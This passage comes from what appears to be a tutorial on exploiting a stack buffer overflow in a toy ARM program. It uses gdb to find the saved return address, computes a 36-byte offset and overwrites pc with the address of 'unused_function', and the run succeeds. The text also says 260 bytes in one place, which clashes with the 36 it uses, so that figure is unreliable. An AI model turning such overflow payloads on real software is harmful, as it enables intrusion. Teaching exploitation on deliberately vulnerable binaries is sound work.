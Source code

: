 Alright, so after the return `pc` gets set to
`0xb6e7d740`. We do not particularly care about where
this address points to. What we are interested in
however, is where this value was on the stack.

While this could have been figured out just by reading
the assembly, this is a good way to verify that too.

After searching for `0xb6e7d740` among the words near the
stack pointer around the stack frame of `main`, we found it:

```gdb
0xbefff4f8:     0x00000000      0x00000000      0x00000000       0xb6e7d740
```

### The Exploit Plan

There it is. It looks like the address of it was
`0xbefff504`. From this we can derive how far away it is
from our buffer. It looks like the distance is 9 words,
or equivalently 36 bytes.

So here is how we can exploit this program: Make our
input have 260 bytes of whatever followed by the address
of `unused_function`. Then executing `strcpy` will
overwrite the stored `pc`, so after executing the
return, pc will point to the start of `unused_function`,
so it will execute its contents.

Well, we already the have the address of
`unused_function`. It is `0x00010494`.

Alright, let's pad it with 260 bytes of garbage. I used
GHCi to not have to manually type that out, but choose
whatever option you like the best.

```sh
$ ghci -e 'take 36 $ cycle "12345678"'
"123456781234567812345678123456781234"
```

To add the address to the end of our string we need to
hex escape then in whatever language we choose. I am
just going to use some bash magic to pass it as an
argument.

```sh
$ ./vuln $(echo -e '123456781234567812345678123456781234\x94\x04\x01\x00')
-bash: warning: command substitution: ignored null byte in input
Pwned.
Segmentation fault
$ echo $?
139
```

Luckily, I do not care that the program does not exit
gracefully. It works, our exploit was successful.
